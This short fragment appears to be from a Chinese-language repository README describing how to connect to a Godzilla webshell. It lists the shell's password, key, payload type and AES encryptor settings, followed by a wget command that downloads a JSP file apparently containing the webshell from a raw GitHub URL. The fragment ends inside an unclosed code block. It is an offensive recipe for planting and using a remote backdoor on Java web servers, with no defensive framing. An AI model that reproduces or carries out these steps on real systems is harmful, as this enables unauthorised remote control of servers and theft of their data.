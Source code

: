### 连接方式
Godzilla连接配置:
密码:Tas9er密钥:0WKj6wD有效载荷:JavaDynamicPayload  加密器:JAVA_AES_BASE64

```
wget https://raw.githubusercontent.com/kd6379/test/refs/heads/main/test1.jsp
